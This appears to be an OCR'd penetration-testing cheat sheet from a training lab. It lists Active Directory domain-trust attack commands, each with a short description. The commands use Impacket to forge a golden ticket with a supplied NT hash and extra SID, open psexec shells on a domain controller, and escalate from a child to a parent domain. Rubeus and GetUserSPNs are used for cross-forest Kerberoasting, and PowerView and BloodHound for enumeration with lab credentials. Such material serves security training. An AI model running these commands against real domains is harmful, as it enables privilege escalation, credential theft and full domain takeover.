 `lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.5 | grep -B12 "Enterprise Admins"`

    Impacket tool used to retrieve the `SID` of a target Windows domain and attach it to the Enterprise Admin group's `RID` from a Linux-based host.

`ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker`

    Impacket tool used to create a `Golden Ticket` from a Linux-based host.

`export KRB5CCNAME=hacker.ccache`

    Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host.

`psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@lafi-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`

    Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host.

`raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/lafi`

    Impacket tool that automatically performs an attack that escalates from child to parent domain.

Trust Relationships — Cross-Forest

`Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName`

    PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host.

`Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof`

    PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host.

`.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`

    Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host.

`Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL`

    PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host.

`Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator`

    PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host.

`GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`

    Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host.

`bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2`

    Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host.

`zip -r ilfreight_bh.zip *.json`

    Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI.
